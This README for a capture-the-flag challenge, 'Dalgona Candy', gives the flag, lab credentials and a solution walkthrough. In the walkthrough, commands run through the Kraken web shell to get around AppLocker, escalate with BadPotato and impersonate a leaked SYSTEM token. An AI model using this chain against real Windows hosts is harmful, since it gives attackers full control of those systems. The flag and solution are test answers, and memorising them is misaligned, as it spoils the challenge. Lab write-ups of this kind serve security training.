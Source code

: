 # Challenge 02 - Dalgona Candy

- Main Flag: `squid-game{H4rdPr1v3scW1th0utCMD}`

## Description

Nice to see you again!

The next game is called **"Dalgona Candy"**, pay attention to the following rules:

- To win this game you must focus on being accurate and effective. The objective is quite, but you will find it difficult to complete.
- As you can see, there is no single way to win the game. Choose the safest way to do it.
- We remind you that, if you are not careful, and you are too tough, you will be eliminated.

To get started visit the following link:

https://challenge-02.makemalware.com

Good luck!

## Deploy

Credentials:
- Administrator: `Squ1dG4meAdminCr3d3nt14l!`
- triangle: `Squ1dG4meAdminCr3d3nt14l!`
- webusr: `Squ1dG4meW3bSrvCr3d3nt14l!`

## Solution

Solution using [Kraken](https://github.com/kraken-ng/Kraken):

```shell
sysinfo
help

# Checking we can't execute any commands because AppLocker Policies
execute "whoami"
execute -e C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe -- -c Get-Host

# Listing user identity and privileges 
whoami
whoami -g
whoami -p

# Elevation of privileges using BadPotato assembly
list_tokens
execute_assembly -f /tmp_kraken/badpotato_net40_x64.exe -n BadPotato -c Program -m call

# Impersonating SYSTEM account using its primary leaked token
list_tokens
set_token 1852
whoami
whoami -p

cd C:/Users/Administrator/Desktop
ls
cat squid-flag.txt
```
